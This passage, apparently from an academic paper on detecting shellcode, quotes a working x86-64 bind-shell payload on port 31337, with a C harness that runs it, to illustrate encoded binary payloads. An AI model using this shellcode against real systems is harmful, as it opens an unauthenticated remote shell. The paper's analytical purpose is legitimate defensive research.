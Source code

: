The difference being that the former relies on the target shell being present, and leveraging it to
grant a reverse shell, and the latter injecting a malicious shell program that has no prerequisites beyond the architecture it is designed to work on.

A fine example is below \citep{x86Shellcode}:
\begin{lstlisting}[label=x86Shellcode,caption=x86 Shellcode Example]
#include <stdio.h>
  
#define PORT "\x7a\x69" /* 31337 */
  
unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02"
PORT"\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05"
"\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31"
"\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59"
"\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05";
 
int
main(void)
{
    printf("Shellcode Length: %d\n", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}

\end{lstlisting}

The above code is a proof of concept from www.shell-storm.org. It illustrates that not only can explicit shell instructions be encoded, but that Linux binary code can be as well.
The example simply describes the Shellcode, but in reality would be injected using a relevant exploit, and would then return a shell once executed. 

If found in industry, the differences can be shown via meaningful output between normal decoders and running it through a x86 disassembler. 
Typical reverse engineering methods could then be conducted to find the true purpose of the payload. The specifics of static binary analysis, is beyond the scope of this paper. Instead the focus is
on dynamic behavioural analysis.


